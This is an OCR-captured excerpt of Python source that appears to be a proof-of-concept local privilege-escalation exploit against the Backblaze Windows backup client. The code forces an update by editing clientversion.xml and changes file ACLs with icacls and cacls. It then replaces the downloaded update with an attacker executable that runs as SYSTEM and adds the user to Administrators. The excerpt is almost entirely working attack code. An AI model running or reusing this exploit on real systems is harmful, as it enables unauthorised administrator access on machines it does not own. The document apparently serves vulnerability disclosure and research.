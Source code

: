 ```python
    #
    if platform.architecture()[0] == "32bit":
        bzinstall = f"{os.environ['ProgramFiles']}\\Backblaze\\bzinstall.xml"
    else:
        bzinstall = f"{os.environ['ProgramFiles(x86)']}" +\
                    "\\Backblaze\\bzinstall.xml"
    if not os.path.exists(bzinstall):
        print("Waiting for Backblaze's installer to assign an hguid value.")
        wait_for_filesystem_object(bzinstall)
        print("Backblaze assigned an hguid value.")
    with open(bzinstall) as f:
        xml = f.read()
    hguid = re.search('hguid="([^"]+)"', xml).group(1)

    # Force update via clientversion.xml.
    if not os.path.exists(f"{bzupdates}\\clientversion.xml"):
        print("Waiting for Backblaze to download clientversion.xml.")
        wait_for_filesystem_object(f"{bzupdates}\\clientversion.xml")
        print("clientversion.xml now downloaded.")
    with open(f"{bzupdates}\\clientversion.xml", "r+") as f:
        xml = f.read()
        xml = re.sub('update_hguids_firstchar=".',
                     f'update_hguids_firstchar="{hguid[0]}', xml)
        xml = xml.replace('win32_version="', 'win32_version="1')
        f.truncate(0)
        f.seek(0)
        f.write(xml)
    print("clientversion.xml modified to force update next time Backblaze " +
          "considers updating.")

    # Don't allow SYSTEM to overwrite clientversion.xml.
    subprocess.run(["icacls.exe", f"{bzupdates}\\clientversion.xml",
                    "/setowner", f"{os.environ['USERNAME']}"])
    print()
    subprocess.run(f'echo y| cacls.exe "{bzupdates}\\clientversion.xml" ' +
                   '/S:D:PAI(A;;FA;;;OW)(A;;GRGX;;;SY)', shell=True)
    print()

    #
    # Create an executable to replace the downloaded update, which will elevate
    # our privileges.
    #
    exe_content = get_exe_content()
    with open(f"{bzupdates}\\eop.exe", "wb") as f:
        f.write(exe_content)

    #
    # Wait for update to download and overwrite it with attacker's executable.
    # In this PoC we use iexpress.exe (built into Windows) to create an EXE that
    # adds the attacker to the Administrators group, but an attacker could
    # supply any executable content they like.
    #
    exe = re.search('win32_url=.+?file=([^"]+)"', xml).group(1)
    print(f"Waiting for Backblaze to download {exe}.")
    wait_for_filesystem_object(f"{bzupdates}\\{exe}")
    os.replace(f"{bzupdates}\\eop.exe", f"{bzupdates}\\{exe}")
    print(f"{exe} downloaded and replaced.")
    print(f"{exe} should now get executed as SYSTEM.")

    for i in range(5):
        if am_i_admin():
            print("Success! You're now an administrator!")
            return
```